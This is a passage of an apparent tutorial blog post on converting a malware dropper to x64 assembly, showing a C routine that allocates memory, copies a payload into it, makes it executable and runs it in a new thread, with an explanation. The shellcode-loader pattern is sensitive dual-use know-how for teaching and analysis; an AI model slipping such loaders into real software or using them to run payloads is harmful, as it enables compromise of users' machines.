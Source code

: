 ```c
	HANDLE th;
    DWORD oldprotect = 0;

	// Allocate a memory buffer for payload.
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	// Copy payload to new buffer
	RtlMoveMemory(exec_mem, payload, payload_len);

	// Make new buffer as executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me!\n");
	getchar();

	// If all good, run the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}
```

Here is what the code does:

* Allocates memory buffer with size `payload_len`
* Copies `payload` to the buffer
* The buffer's memory protection is changed to `PAGE_EXECUTE_READ` which allows for code execution
* A thread is created that runs the payload, which runs indefinitely

It doesn't seem that the program is doing much when run. All we see are the payload and exec_mem addresses for debugging purposes and nothing much else.

![converting-a-malware-dropper-to-x64-assembly-01]({attach}/images/converting-a-malware-dropper-to-x64-assembly-01.png)

The most interesting parts with this code will be seen under a debugger, which I'll go through later in this post.

## Including external functions

In C, if we want to to use a Windows API function, we need to include the necessary header files and make sure to supply required library names via the linker, like so:

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
```
